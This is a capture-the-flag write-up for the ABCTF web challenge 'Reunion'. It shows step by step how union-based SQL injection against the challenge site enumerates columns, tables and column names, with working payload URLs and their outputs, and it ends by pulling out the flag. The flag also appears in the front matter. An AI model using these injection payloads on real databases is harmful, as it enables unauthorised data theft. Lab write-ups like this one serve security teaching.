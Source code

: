 ```yaml
---
layout: writeup
title: 'Web Exploitation 150: Reunion'
level:
difficulty:
points: 150
categories: [web exploitation]
tags: []
flag: abctf{uni0n_1s_4_gr34t_c0mm4nd}
---
```

**Challenge**   
SQL injection challenge, great resource for union based sql injection
[here][1]

## Solution

first we find out how many columns there are by simply guessing and
seeing when we get an output:

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134 from information_schema.tables where table_schema=database()--+
    no results
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,134,8 from information_schema.tables where table_schema=database()--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: 134

bingo!

next we find out the table name

    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 5,42,table_name,8 from information_schema.tables where table_schema=database()--+
    
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 42
    Breed: 5
    Color: w0w_y0u_f0und_m3
    Name: 42
    Breed: 5
    Color: webeight

so we know the table\_name is `w0w_y0u_f0und_m3`

now for the column names (we had to hex encode the table name for this
to work):

    http://yrmyzscnvh.abctf.xyz/web8/?id=2 union select 2,2,column_name,8 from information_schema.columns where table_schema=database() and table_name=0x7730775f7930755f6630756e645f6d33--+
    Name: Doodle
    Breed: Poodle
    Color: Pink
    Name: 2
    Breed: 2
    Color: f0und_m3
    '''
    
    So we found the column name we need. now to extract data from this column
    
    http://yrmyzscnvh.abctf.xyz/web8/?id=1 union select 2,4,f0und_m3,1 from w0w_y0u_f0und_m3--+
    Name: Saranac
    Breed: Great Dane
    Color: Black
    Name: 4
    Breed: 2
    Color: abctf{uni0n_1s_4_gr34t_c0mm4nd}



[1]: http://securityidiots.com/Web-Pentest/SQL-Injection/Basic-Union-Based-SQL-Injection.html